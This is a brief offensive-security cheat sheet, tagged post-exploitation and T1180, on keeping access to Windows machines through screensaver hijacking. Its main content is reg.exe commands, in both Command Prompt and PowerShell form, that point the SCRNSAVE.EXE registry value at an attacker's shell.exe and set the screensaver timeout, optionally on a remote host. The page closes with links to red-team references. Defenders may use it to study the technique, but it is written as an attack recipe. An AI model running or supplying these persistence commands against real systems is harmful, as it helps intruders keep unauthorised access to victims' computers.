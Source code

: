 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1180
  - windows
---
```

# Living off the Land

TODO: Refer to the link

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

## 02 - PowerShell

TODO: Convert the commands to cmdlets

```
PS C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

PS C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Github

- [austin-lai: Persistence through Windows Screensaver Hijacking](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking)

### Persistence Info

- [Persistence Info: Screen Saver](https://persistence-info.github.io/Data/screensaver.html)

### Red Team Notes

- [Red Team Notes: Screensaver Hijack](https://www.ired.team/offensive-security/persistence/t1180-screensaver-hijack)